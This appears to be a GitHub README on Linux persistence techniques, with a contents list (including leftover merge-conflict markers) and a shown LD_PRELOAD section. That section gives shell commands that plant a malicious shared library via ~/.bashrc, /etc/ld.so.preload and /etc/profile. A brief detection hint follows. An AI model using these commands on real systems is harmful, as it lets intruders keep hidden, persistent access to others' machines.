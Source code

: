 
# Linux persistence addons

</br>

* [Non-Root](#non-root)
	* [LD_PRELOAD](#ld_preload)
	* [SSH authorized keys](#SSH-Authorized-Keys)
<<<<<<< HEAD
	* [Trap](#event-triggered-execution-trap)
=======
	* [Trap](#Event-Triggered-Execution\:\-Trap)
>>>>>>> 79437e4eb93ffdf18aab50873ef9a675a9e34d72
	* [Compromise Client Software Binary](#Compromise-Client-Software-Binary)
	* [Add service](#Add-service)
	* [~/.bash_profile and ~/.bashrc](#files-bash_profile-and-bashrc)
* [Root](#root)
	* [rc.local](#rclocal)
	* [Kernel Module Loading](#kml-kernel-module-loading)


</br>


# Non-root

</br>

## LD_PRELOAD
Add your malicious *.so* (with your rewritten *sys.calls*) file to **LD_PRELOAD**
and every program, which use *syscalls* (rewritten by you) will use your functions instead of default syscalls.
#### Examples:

```bash
 echo export LD_PRELOAD=/path/to/badguy.so >> ~/.bashrc
```

or

(***ROOT PRIVILEGES NEEDED!***)

```bash
echo /path/to/badguy.so >> /etc/ld.so.preload

echo export LD_PRELOAD=/path/to/badguy.so >> /etc/profile
```



You can read more on how to build this *.so* here:
*refer: https://xakep.ru/2020/12/29/ld_preload-rootkit/*

#### Detection:
User can see malicious string in */etc/ld.so.preload* or in *~/.bashrc*
